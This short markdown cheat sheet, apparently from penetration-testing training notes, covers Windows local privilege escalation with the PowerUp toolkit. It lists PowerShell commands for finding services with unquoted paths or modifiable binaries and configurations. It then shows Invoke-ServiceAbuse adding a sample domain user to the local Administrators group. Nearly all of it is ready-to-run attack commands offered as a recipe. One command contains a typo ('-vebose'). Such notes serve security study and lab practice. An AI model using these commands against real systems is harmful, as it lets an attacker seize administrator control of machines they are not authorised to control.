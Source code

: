 ## Local Privilege Escalation

### PowerUP
---

#### Find Vulnerable Services
- Get Services with Unquoted Paths and Spaces in Name
```powershell
C:> Get-ServiceUnquoted -vebose
```
- Get Services where Current User can Write to the Binary Path or Change Arguments to Binary
```powershell
C:> Get-ModifiableServiceFile
```
- Get Services that Current User can Modify Configuration
```powershell
C:> Get-ModifiableService
```
##### Abuse Found Vulnerable Services
In the three cmdlets, a `AbuseFunction` field is returned with the command to run to gain privileges. To make the user member of Local Administrators, can use:
```powershell
C:> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
```
This will make user member of the Admins group. Just need to relog session and that's it.




